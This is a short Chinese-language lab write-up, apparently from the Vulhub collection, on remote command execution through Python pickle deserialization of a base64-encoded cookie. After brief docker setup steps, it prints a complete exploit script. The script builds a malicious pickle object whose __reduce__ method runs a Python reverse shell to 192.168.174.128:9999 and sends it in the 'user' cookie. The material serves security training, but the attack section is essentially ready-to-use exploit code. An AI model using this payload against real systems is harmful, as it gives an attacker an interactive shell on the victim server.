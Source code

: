 # Python unpickle 造成任意命令执行漏洞

## 漏洞描述

参考文章：

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html

## 环境搭建

Vulhub编译及运行测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:8000`，显示`Hello {username}!`。

## 漏洞复现

username是取Cookie变量user，对其进行base64解码+反序列化后还原的对象中的“username”变量，默认为“Guest”，伪代码：`pickle_decode(base64_decode(cookie['user']))['username'] or 'Guest'`。

调用exp.py，监听9999端口，反弹shell：

```python
#!/usr/bin/env python3
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.174.128",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))


e = exp()
s = pickle.dumps(e)

response = requests.get("http://192.168.174.128:8000/", cookies=dict(
    user=base64.b64encode(s).decode()
))
print(response.content)
```

![image-20220228172508273](./images/202202281725409.png)